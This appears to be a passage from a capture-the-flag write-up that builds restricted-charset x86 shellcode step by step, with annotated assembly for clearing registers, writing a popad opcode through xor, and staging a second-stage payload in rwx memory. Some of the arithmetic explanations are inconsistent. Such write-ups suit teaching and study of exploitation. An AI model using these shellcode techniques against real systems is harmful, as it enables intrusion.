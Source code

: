 Now we will finish clearing out the `edi` register. We will essentially change the `eax` pointer to `0x60606161`. Then we will again xor `edi` by the value pointed to by `eax`, which will give us `0x41364136 & 0x36413641 = 0x0`:

```
; A4 B4 C6 A#8
inc    ecx ; A
xor    al,0x42 ; 4B
xor    al,0x43 ; 4C
ss inc ecx ; 6A
and    edi,DWORD PTR [eax] ; #8
```

Now we will write the `popad` instruction to our shellcode. With our setup the last byte of the `eax` register is `0x61`, which is the opcode for the `popad`. However since our write is with an xor, and we've filled the space around our pointer in `eax` with `0x3641` opcodes we will have to find xor it by `0x41 ^ 0x61 = 0x20`. So we will need to xor `al` by `0x41` to get it there:

```
; A4 A6 A0 D8 A6 (6 is used in next step)
inc    ecx ; A
xor    al,0x41 ; 4A
ss inc ecx ; 6A
xor    BYTE PTR [eax+edi*1+0x41],al ; 0D8A
```

Now that the `popad` instruction has been written, we just need to worry about setting up the stack for the `popad` instruction. For this we will prep the `edx` (how many bytes) and `ecx` (where to write) both to be the pointer in `eax`. This might be a bit overkill for the size limit, however we won't run out of bytes to write. Also this will ensure that our second wave of shellcode is in the static `rwx` region of memory that our shellcode executes in. For this step, we are using some of the space we cleared up in the beginning:

```
; 6 F6 F6 F6 F1 F0 F6 F6 F6 F1 F0
ss inc esi ; 6F
ss inc esi ; 6F
ss inc esi ; 6F
ss inc esi ; 6F
xor    DWORD PTR [esi+0x30],eax ; 1F0

inc    esi ; F
ss inc esi ; 6F
ss inc esi ; 6F
ss inc esi ; 6F
xor    DWORD PTR [esi+0x30],eax ; 1F0
```

Now we will have to write the value of `0x3` to it's designated stack position. Before we do that, we will have to xor `eax` by a value it is equal to (which we just wrote it), followed by two values that will give us `0x3`:

```
; A3 F0 A4 A4 B6 (6 is used in next step)
inc    ecx ; A
xor    eax,DWORD PTR [esi+0x30] ; 3F0
inc    ecx ; A
xor    al,0x41 ; 4A
xor    al,0x42 ; 4B
```

